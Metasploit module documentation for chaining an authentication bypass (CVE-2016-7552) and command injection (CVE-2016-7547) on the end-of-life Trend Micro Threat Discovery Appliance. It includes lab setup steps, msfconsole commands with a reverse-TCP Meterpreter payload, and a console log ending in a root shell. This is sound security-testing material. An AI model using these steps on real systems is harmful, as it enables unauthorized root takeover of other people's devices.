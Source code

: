 ## Vulnerable Application

This module exploits two vulnerabilities the Trend Micro Threat Discovery Appliance. The first is an authentication
bypass vulnerability via a file delete in logoff.cgi which resets the admin password back to 'admin' upon a
reboot (CVE-2016-7552). The second is a cmdi flaw using the timezone parameter in the admin_sys_time.cgi interface (CVE-2016-7547).

Note: You have the option to use the authentication bypass or not since it requires that the server is rebooted.
The password reset will render the authentication useless. Typically, if an administrator cant login, they will bounce the box.
Therefore, this module performs a heart beat request until the box is bounced and then attempts to login and to
perform the command injection. This module has been tested on version 2.6.1062r1 of the appliance.

Trend Micro are not patching this vulnerability since this
product is now ([EOL](https://success.trendmicro.com/solution/1105727-list-of-end-of-life-eol-end-of-support-eos-trend-micro-products)).

![Demo](http://srcincite.io/poc/CVE-2016-7547.gif)

### Vulnerable Application Installation Steps

List the steps needed to make sure this thing works

- [ ] Download the ISO from ([Trend Micro's](http://download.trendmicro.com/products/tda/TDA_InstallationCD.2.6.1062r1.en_US.iso)) download site.
- [ ] Setup the VM to have 2 NIC's, 100 Gig HD and 4096 RAM.
- [ ] Click through the default install.
- [ ] You are ready to burn.

## Verification Steps

  1. Install the appliance
  2. Start metasploit
  3. Do: ```use exploit/multi/http/trendmicro_threat_discovery_admin_sys_time_cmdi```
  4. Do: ```set payload linux/x86/meterpreter/reverse_tcp```
  5. Do: ```set RHOST [IP]```
  6. Do: ```set LHOST [IP]```
  7. Do: ```exploit```
  8. The exploit will reset the admin password, now reboot the VM.
  9. After reboot, you receive a root shell

## Options

### PASSWORD

Password for the system.  Default is `admin`.

### AUTHBYPASS

Bypass the system's authentication.  Defaults to `true`

## Scenarios

### Trendmicro Threat Discovery Appliance 2.6.1062r1

```
saturn:metasploit-framework mr_me$ ./msfconsole -qr scripts/trend.rc 
[*] Processing scripts/trend.rc for ERB directives.
resource (scripts/trend.rc)> use exploit/multi/http/trendmicro_threat_discovery_admin_sys_time_cmdi
resource (scripts/trend.rc)> set RHOST 192.168.100.2
RHOST => 192.168.100.2
resource (scripts/trend.rc)> set payload linux/x86/meterpreter/reverse_tcp
payload => linux/x86/meterpreter/reverse_tcp
resource (scripts/trend.rc)> set LHOST 192.168.100.13
LHOST => 192.168.100.13
resource (scripts/trend.rc)> exploit
[*] Exploit running as background job.

[*] Started reverse TCP handler on 192.168.100.13:4444 
[*] Bypassing authentication...
msf exploit(trendmicro_threat_discovery_admin_sys_time_cmdi) > 
[+] The password has been reset!
[*] Waiting for the reboot...
[*] 192.168.100.2:443 - Starting up our web service on http://192.168.100.13:1337/nnDBuOUMuKnxP ...
[*] Using URL: http://0.0.0.0:1337/nnDBuOUMuKnxP
[*] Local IP: http://192.168.100.13:1337/nnDBuOUMuKnxP
[+] Logged in
[*] 192.168.100.2:443 - Sending the payload to the server...
[*] Transmitting intermediate stager for over-sized stage...(105 bytes)
[*] Sending stage (1495599 bytes) to 192.168.100.2
[*] Meterpreter session 1 opened (192.168.100.13:4444 -> 192.168.100.2:46140) at 2016-09-23 14:59:08 -0500
[+] Deleted /tmp/rpNDXQZTB
[*] Server stopped.

msf exploit(trendmicro_threat_discovery_admin_sys_time_cmdi) > sessions -i 1
[*] Starting interaction with 1...

meterpreter > shell
Process 3846 created.
Channel 1 created.


BusyBox v1.00 (2010.10.13-06:52+0000) Built-in shell (ash)
Enter 'help' for a list of built-in commands.

/bin/sh: can't access tty; job control turned off
/opt/TrendMicro/MinorityReport/www/cgi-bin # id
id
uid=0(root) gid=0(root)
/opt/TrendMicro/MinorityReport/www/cgi-bin #
```
